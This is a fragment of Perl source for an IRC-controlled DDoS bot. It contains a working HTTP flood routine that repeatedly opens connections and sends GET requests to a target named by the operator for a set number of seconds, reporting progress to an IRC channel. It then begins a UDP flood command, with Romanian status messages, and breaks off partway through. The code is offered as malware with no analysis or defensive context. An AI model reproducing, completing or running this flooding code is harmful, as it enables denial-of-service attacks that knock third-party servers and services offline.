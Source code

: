 ###################### 

#     HTTPFlood      # 

###################### 

         if ($funcarg =~ /^httpflood\s+(.*)\s+(\d+)/) { 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :4|12.:3HTTP DDoS12:.4|12 Attacking 4 ".$1." 12 on port 80 for 4 ".$2." 12 seconds ."); 

            my $itime = time; 

            my ($cur_time); 

            $cur_time = time - $itime; 

            while ($2>$cur_time){ 

               $cur_time = time - $itime; 

               my $socket = IO::Socket::INET->new(proto=>'tcp', PeerAddr=>$1, PeerPort=>80); 

               print $socket "GET / HTTP/1.1\r\nAccept: */*\r\nHost: ".$1."\r\nConnection: Keep-Alive\r\n\r\n"; 

               close($socket); 

            } 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :4|12.:3HTTP DDoS12:.4|12 Attacking done 4 ".$1."."); 

         } 

###################### 

#  End of HTTPFlood  # 

###################### 

###################### 

#     UDPFlood       # 

###################### 

         if ($funcarg =~ /^udpflood\s+(.*)\s+(\d+)\s+(\d+)/) { 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :4|12.:3UDP ZR12:.4|12 ATACAM BY.ZR 4 ".$1." 12 CU 4 ".$2." 12 Kb PACHETE PE 4 ".$3." 12 SECUNDE."); 

            my ($dtime, %pacotes) = udpflooder("$1", "$2", "$3"); 

            $dtime = 1 if $dtime == 0; 

            my %bytes; 

            $bytes{igmp} = $2 * $pacotes{igmp}; 
